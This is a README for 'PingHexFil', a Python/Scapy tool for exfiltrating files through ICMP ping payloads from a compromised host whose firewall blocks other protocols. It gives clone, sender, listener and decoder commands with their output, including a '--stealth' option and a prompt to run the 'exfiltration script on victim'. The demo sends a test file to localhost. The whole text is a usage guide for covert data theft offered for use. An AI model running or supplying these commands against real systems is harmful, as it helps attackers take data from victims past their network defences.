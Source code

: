 # PingHexFil
Exfiltration of files using ICMP (ping). This works in instances when you have spawned a shell but cannot exfiltrate data from other protocols due to firewalls, etc. If Ping is allowed, exploit it with the following application.
## Data Exfiltration using ICMP
Pass a file name, destination IP address, and "--stealth" (optional), to the application. The application will chunk the file into 60K sizes and send each "chunk" as the data payload of the ICMP request to the destination IP address. Ensure that you are capturing ICMP packets at the destination before sending. You can do this using Wireshark.
## Usage
The following is done with the example file, `examples/example1.txt`
## Installation
Ensure that you have Python-Scapy installe don your system. This application is written in Python and is OS independent.
```
root@demon:/tmp# git clone https://github.com/weaknetlabs/pinghexfil
Cloning into 'pinghexfil'...
remote: Enumerating objects: 83, done.
remote: Counting objects: 100% (83/83), done.
remote: Compressing objects: 100% (66/66), done.
remote: Total 83 (delta 38), reused 29 (delta 9), pack-reused 0
Unpacking objects: 100% (83/83), done.
root@demon:/tmp# cd pinghexfil/
```
### Step 1: Send the Bytes via ICMP
Start `PingHexFil` 
```
root@demon:/tmp/pinghexfil# ./pinghexfil.py 127.0.0.1 examples/example1.txt --stealth
[+] Opening file: examples/example1.txt
[+] The file examples/example1.txt is 168517 bytes.
[+] This will require: 5 packets to transmit.
[+] Start the listener with count of 5, hit ENTER when ready ... 
```
### Step 2: Start the Listener
```
root@demon:/tmp/pinghexfil# ./recvdata.py outputfile.txt 127.0.0.1 5
[+] Waiting for data from: 127.0.0.1
[+] Writing to file: outputfile.txt
[+] Packet count: 5
[+] Begin exfiltration script on victim now ...
```
### Step 3: Start the File Transfer
Hit ENTER in the PingHexFil.py window to begin the file transfer via ICMP:
```
[+] 60000 bytes sent via ICMP.
[+] 60000 bytes sent via ICMP.
[+] 60000 bytes sent via ICMP.
[+] 60000 bytes sent via ICMP.
[+] 60000 bytes sent via ICMP.
[+] File exfiltration complete.
[+] 5 ICMP packets sent.
root@demon:/tmp/pinghexfil# 
```
### Step 4: Decode the File
Ensure that you have the file, by checking the handler screen, you should now see this:
```
[+] Transfer complete. File outputfile.txt written.
root@demon:/tmp/pinghexfil# 
```
Next we need to decode the output file, `outputfile.txt` with the `file-decoder.py` application. 
```
root@demon:/tmp/pinghexfil# ./file-decoder.py outputfile.txt 
[+] Opening file: outputfile.txt
This is a test file.
This is a test file.
... SNIPPED ...
This is a test file.
This is a test file.
```
The process is now completed.
